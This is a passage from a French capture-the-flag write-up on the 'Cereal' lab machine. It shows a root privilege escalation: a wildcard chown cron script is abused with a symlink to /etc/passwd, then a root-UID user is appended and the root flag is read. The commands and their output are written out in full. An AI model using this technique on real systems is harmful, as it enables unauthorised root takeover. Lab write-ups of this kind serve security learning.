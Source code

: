Ce script est vulnérable à cause du wildcard utilisé. On va pouvoir utiliser un lien symbolique :

```console
bash-4.4$ cat /usr/share/scripts/chown.sh
chown rocky:apache /home/rocky/public_html/*
bash-4.4$ ln -s /etc/passwd /home/rocky/public_html/passwd
```

J'ai attendu encore un moment, mais ça a fonctionné :

```console
bash-4.4$ ./pspy64 | grep chown
2025/07/09 15:29:39 CMD: UID=48   PID=76203  | grep chown 
2025/07/09 15:30:01 CMD: UID=0    PID=77096  | /bin/bash /usr/share/scripts/chown.sh 
2025/07/09 15:30:01 CMD: UID=0    PID=77097  | chown rocky:apache /home/rocky/public_html/back_en /home/rocky/public_html/index.php /home/rocky/public_html/passwd /home/rocky/public_html/php.js /home/rocky/public_html/style.css 
^Cbash-4.4$ ls -al /etc/passwd
-rwxrwxr-x. 1 rocky apache 1.6K May 29  2021 /etc/passwd
bash-4.4$ echo devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd
bash-4.4$ su devloop
Password: 
sh-4.4# cd /root
sh-4.4# ls
anaconda-ks.cfg  listener.sh  proof.txt
sh-4.4# cat proof.txt
Well done! You have completed Cereal.

  ____                    _ 
 / ___|___ _ __ ___  __ _| |
| |   / _ \ '__/ _ \/ _` | |
| |__|  __/ | |  __/ (_| | |
 \____\___|_|  \___|\__,_|_|
                            

This box was brought to you by Bootlesshacker.

Follow me on Twitter: @bootlesshacker
My website: https://www.bootlesshacker.com

Root Flag: 1aeb5db4e979543cb807cfd90df77763
```

Effectivement le crontab s'exécute toutes les 10 minutes. Un peu long pour un CTF.

```console
sh-4.4# crontab -l
*/10 * * * * /bin/bash /usr/share/scripts/chown.sh
```
